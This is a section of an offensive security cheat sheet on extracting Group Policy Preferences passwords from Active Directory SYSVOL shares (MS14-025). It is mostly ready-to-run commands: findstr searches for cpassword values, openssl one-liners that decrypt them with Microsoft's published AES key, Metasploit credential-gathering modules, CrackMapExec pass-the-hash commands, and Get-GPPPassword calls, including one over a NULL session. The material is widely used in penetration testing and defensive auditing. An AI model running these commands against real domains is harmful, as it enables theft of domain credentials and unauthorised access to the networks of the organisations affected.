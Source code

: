 ## Passwords in SYSVOL & Group Policy Preferences

Find password in SYSVOL (MS14-025). SYSVOL is the domain-wide share in Active Directory to which all authenticated users have read access. All domain Group Policies are stored here: `\\<DOMAIN>\SYSVOL\<DOMAIN>\Policies\`.

```powershell
findstr /S /I cpassword \\<FQDN>\sysvol\<FQDN>\policies\*.xml
```

Decrypt a Group Policy Password found in SYSVOL (by [0x00C651E0](https://twitter.com/0x00C651E0/status/956362334682849280)), using the 32-byte AES key provided by Microsoft in the [MSDN - 2.2.1.1.4 Password Encryption](https://msdn.microsoft.com/en-us/library/cc422924.aspx)

```bash
echo 'password_in_base64' | base64 -d | openssl enc -d -aes-256-cbc -K 4e9906e8fcb66cc9faf49310620ffee8f496e806cc057990209b09a433b66c1b -iv 0000000000000000

e.g: 
echo '5OPdEKwZSf7dYAvLOe6RzRDtcvT/wCP8g5RqmAgjSso=' | base64 -d | openssl enc -d -aes-256-cbc -K 4e9906e8fcb66cc9faf49310620ffee8f496e806cc057990209b09a433b66c1b -iv 0000000000000000

echo 'edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ' | base64 -d | openssl enc -d -aes-256-cbc -K 4e9906e8fcb66cc9faf49310620ffee8f496e806cc057990209b09a433b66c1b -iv 0000000000000000
```

### Automate the SYSVOL and passwords research

- `Metasploit` modules to enumerate shares and credentials
    
    ```c
    scanner/smb/smb_enumshares
    post/windows/gather/enum_shares
    post/windows/gather/credentials/gpp
    ```
    
- CrackMapExec modules
    
    ```powershell
    cme smb 10.10.10.10 -u Administrator -H 89[...]9d -M gpp_autologin
    cme smb 10.10.10.10 -u Administrator -H 89[...]9d -M gpp_password
    ```
    
- [Get-GPPPassword](https://github.com/SecureAuthCorp/impacket/blob/master/examples/Get-GPPPassword.py)
    
    ```powershell
    # with a NULL session
    Get-GPPPassword.py -no-pass 'DOMAIN_CONTROLLER'
    
    # with cleartext credentials
    Get-GPPPassword.py 'DOMAIN'/'USER':'PASSWORD'@'DOMAIN_CONTROLLER'
    